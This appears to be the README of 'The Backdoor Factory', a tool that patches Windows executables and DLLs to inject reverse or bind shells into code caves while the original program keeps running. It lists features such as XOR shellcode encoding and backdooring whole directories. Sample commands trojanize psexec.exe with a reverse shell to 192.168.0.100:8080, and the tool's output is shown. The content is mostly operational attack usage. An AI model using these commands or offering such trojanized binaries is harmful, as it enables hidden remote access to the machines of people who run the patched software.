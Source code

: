 ##The Backdoor Factory
Backdoors win32 PE files, to continue normal file execution (if the shellcode supports it), by patching the exe/dll directly.

Usage: ./backdoor.py -h

Features:

-After making a copy of the target file, the file copy will be patched directly.

-Finding all codecaves in an EXE/DLL.

-Injecting modified reverse/bind shells that allow continued execution after connection to the attacker.

-Modifying the PE/COFF header to add an additional section for all win32 executables/dlls, including those with an import table.

-Using the existing shellcode options, the ability to select PORT and HOST as connection options

-The ability to backdoor a directory of executables/dlls

-List all codecaves in the exe/dll

-Select the codecave in the exe/dll to backdoor, thereby not changing the filesize.

-Includes a simple XOR shellcode encoder.

---------------------------------------------
Sample Usage:

#Backdoor a exe/dll using an existing code cave:

./backdoor.py -f psexec.exe -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -e xor_encode 

The following caves can be used to inject code and possibly continue execution
use a number greater than the highest reference to add a code cave to the executable/dll
versus using an existing code cave.. Good luck:

1 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d2d5 End: 0x2d4d0; Cave Size: 507

2 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d4e9 End: 0x2d6d5; Cave Size: 492

3 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d6e3 End: 0x2d8d8; Cave Size: 501

4 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d8f1 End: 0x2dadd; Cave Size: 492

5 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dae7 End: 0x2dce0; Cave Size: 505

6 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dcf3 End: 0x2dee5; Cave Size: 498

7 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2defb End: 0x2e0ea; Cave Size: 495

8 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2e161 End: 0x2e390; Cave Size: 559

9 Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x2f578 End: 0x2f708; Cave Size: 400

10 Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x58a39 End: 0x58c68; Cave Size: 559

Enter your selection: 2

Using selection: 2

psexec.exe backdooring complete

File bd.psexec.exe is in current directory


---

#Backdoor an exe/dll by adding a code section:

./backdoor.py -f psexec.exe -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a -e xor_encode

Adding a new section to the exe/dll for shellcode injection

psexec.exe backdooring complete

File bd.psexec.exe is in current directory

---
#Backdoor a directory of exes:
./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a


...output too long for README...
